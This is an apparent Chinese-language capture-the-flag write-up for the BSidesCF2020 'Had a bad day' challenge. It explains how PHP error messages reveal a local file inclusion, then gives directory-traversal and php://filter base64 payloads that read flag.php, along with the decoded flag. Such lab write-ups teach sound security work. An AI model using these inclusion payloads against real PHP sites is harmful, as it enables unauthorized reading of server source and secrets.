






## BSidesCF2020Hadabadday1

1、首先启动靶机并访问，发现是这样一个页面



 点woofers就会显示一张狗的图片，而另一个则是猫



2、注意到url中的get传参`?category=woofers`我们试试随便传一个值比如1,显示只支持提供woofers和meowers



3、那我们传个woofers1，显示



注意到这里的几个报错，可以发现

```
Warning: include(woofers1.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 37

#我们传入的是woofers1，但是他包含的是woofers1.php，说明会自动在传值后加.php后缀。
#这里还报出了该页面php文件的地址/var/www/html/index.php

Warning: include(): Failed opening 'woofers1.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 37

#这里爆出了默认的包含地址，/usr/local/lib/php
```

4、到这里基本就有思路了，这里会将我们的get传值后面拼接一个.php，然后当做include的参数。且默认包含地址为/usr/local/lib/php，而页面php文件在/var/www/html/index.php。

这里我们用到php include的中的包含特性来构造payload

payload：

```
?category=woofers.php?./../../../../var/www/html/flag
```

**解释：**

**include的特性**

**先寻找file路径中有没有/**

**如果有/，判断第一个/前的文件存不存在，若不存在，则寻找第一个/后面的文件路径，如果还不存在，则返回error**

因为这里woofers.php?.文件不存在，所以会包含后面的flag.php文件

**这里后面的../../../../var/www/html/flag.php为目录穿越**

5、get传值之后发现没有反应，没有报错，也没有flag回显，这是因为我们虽然成功包含了flag.php，但是include会执行其中代码，并不会回显。所以只要套个filter://伪协议去包含即可



最终payload：

```
?category=php://filter/convert.base64-encode/resource=woofers.php./../../../../var/www/html/flag
?category=php://filter/convert.base64-encode/resource=woofers.php./../flag
```

拿到base64编码后的flag



解码之后即可拿到flag

```
PCEtLSBDYW4geW91IHJlYWQgdGhpcyBmbGFnPyAtLT4KPD9waHAKIC8vIGZsYWd7MjMzMjE1NzktYzgzNS00ZjA0LThhZDMtZTMzZWJhZGVlMTgxfQo/Pgo=

#base64解码
<!-- Can you read this flag? -->
<?php
 // flag{23321579-c835-4f04-8ad3-e33ebadee181}
?>
```

完结。

## 其他解法

这里看了下网上的payload：说是get传入的参数不包含"woofers"、“meowers”、“index"则会跳转到else，所以无法直接读取，必须在变量中插入"woofers”、“meowers”、“index”，在filter伪协议中添加无效路径index即可，而且好像不需要目录穿越，也不需要用include特性

```
category=php://filter/read=convert.base64-encode/index/resource=flag
```

